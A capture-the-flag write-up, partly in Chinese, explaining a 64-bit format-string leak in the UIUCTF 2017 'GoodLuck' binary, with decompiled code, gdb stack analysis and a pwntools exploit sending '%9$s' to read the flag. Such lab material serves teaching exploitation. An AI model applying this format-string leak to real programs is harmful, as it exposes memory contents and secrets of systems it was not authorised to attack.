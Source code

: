 # UIUCTF 2017 GoodLuck

> challenge name: GoodLuck
>
> file: goodluck, flag.txt 原题是远程的flag.txt，这里使用一个本地的代替
>
> original writeup: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2017-UIUCTF-pwn200-GoodLuck
>
> 

- 64bit format string
- 目的是获取远端的flag.txt的内容，由于条件限制，这里复现时使用的是本地文件



flag.txt 文件内容：

```
flag{11111111111111111}
```



# checksec

```bash
$ checksec --file=goodluck
RELRO          STACK CANARY  NX         PIE     RPATH     RUNPATH     Symbols     FORTIFY Fortified  Fortifiable FILE
Partial RELRO  Canary found  NX enabled No PIE  No RPATH  No RUNPATH  75) Symbols   No    0          1           goodluck
```

- 开启canary，NX 保护，部分 RELRO 保护

# IDA Analysis

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+3h] [rbp-3Dh]
  int i; // [rsp+4h] [rbp-3Ch]
  int j; // [rsp+4h] [rbp-3Ch]
  char *format; // [rsp+8h] [rbp-38h] BYREF
  _IO_FILE *fp; // [rsp+10h] [rbp-30h]
  char *v9; // [rsp+18h] [rbp-28h]
  char v10[24]; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 v11; // [rsp+38h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fp = fopen("flag.txt", "r");
  for ( i = 0; i <= 21; ++i )
    v10[i] = _IO_getc(fp);
  fclose(fp);
  v9 = v10;
  puts("what's the flag");
  fflush(_bss_start);
  format = 0LL;
  __isoc99_scanf("%ms", &format); // 用户输入点
  for ( j = 0; j <= 21; ++j )
  {
    v4 = format[j];
    if ( !v4 || v10[j] != v4 )
    {
      puts("You answered:");
      printf(format); // 漏洞利用点
      puts("\nBut that was totally wrong lol get rekt");
      fflush(_bss_start);
      return 0;
    }
  }
  printf("That's right, the flag is %s\n", v9);
  fflush(_bss_start);
  return 0;
}
```

# offset: `%9$n`

```assembly
gef➤  b printf
Breakpoint 1 at 0x400640
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/2017-UIUCTF-pwn200-GoodLuck/goodluck 
what's the flag
123456
You answered:
Breakpoint 1, __printf (format=0x602830 "123456") at printf.c:28
28  printf.c: 没有那个文件或目录.
─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
   0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
   0x7ffff7a627fe <fprintf+142>    ret    
   0x7ffff7a627ff                  nop    
 → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
   0x7ffff7a62807 <printf+7>       test   al, al
   0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
   0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
───────────────────────────────────────────────────────────────────────[ stack ]────
['0x7fffffffdb08', 'l8']
8
0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8    ← $rsp
0x00007fffffffdb10│+0x08: 0x0000000031000001
0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)
0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
0x00007fffffffdb30│+0x28: "flag{11111111111111111"
0x00007fffffffdb38│+0x30: "11111111111111"
0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
──────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
[#1] 0x400890 → Name: main()
```

- 64bit Linux前6个参数在对应寄存器中，而分析栈可知flag在栈上的偏移为5，去除RA，则flag为第4个。fmt str存储在RDI寄存器中，是第一个参数，寄存器总共传递了6个参数，故flag相对于fmt str的距离为 `4+6-1=9`。故输入 `%9$s` 即可得到 flag 的内容
- 另外可以使用pwdgdb( https://github.com/scwuaptx/Pwngdb ) 中的fmtarg判断某个参数的偏移

```
gef➤  fmtarg 0x00007fffffffdb28
The index of format argument : 10
```





# exploit

```python
from pwn import *
context.log_level = "DEBUG"
goodluck = ELF('./goodluck')
sh = process('./goodluck')
payload = b"%9$s"
print(payload)
# gdb.attach(sh)
sh.sendline(payload)
print(sh.recv())
sh.interactive()
```



